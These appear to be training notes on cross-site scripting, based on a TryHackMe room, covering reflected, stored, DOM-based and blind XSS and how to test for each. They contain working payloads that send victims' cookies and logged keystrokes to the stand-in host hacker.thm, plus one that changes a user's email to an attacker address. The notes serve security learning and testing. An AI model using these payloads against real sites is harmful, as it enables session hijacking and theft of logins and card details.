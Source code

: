 ## What is it?
Where malicious JavaScript gets injected into a web application with the intention of being executed by other users
# XSS Payloads:
The payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, the modification is the changes to the code we need to make it execute as every scenario is different
## Checking for XXS
Demonstrate that you can achieve XSS on a website by causing an alert box to pop up on the page with a string of text, for example:
```
<script>alert('1');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### **Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic:
calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.
# Types of XSS
## Reflected XSS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

Can be used per this scenario:
![8e3bffe500771c03366de569c3565058.png](8e3bffe500771c03366de569c3565058.png)
### **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### **How to test for Reflected XSS:**
You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Example
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
### How to Test for Stored XSS:
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

- Comments on a blog
- User profile information  
- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## DOM Based XSS
### What is DOM?
DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![24a54ac532b5820bf0ffdddf00ab2247.png](24a54ac532b5820bf0ffdddf00ab2247.png)
### Exploiting the DOM
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.
#### Example
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
### How to Test
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

Look for `eval()` JavaScript method being used in source code.
## Blind XSS
Your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Example
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.
### How to Test:
you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more
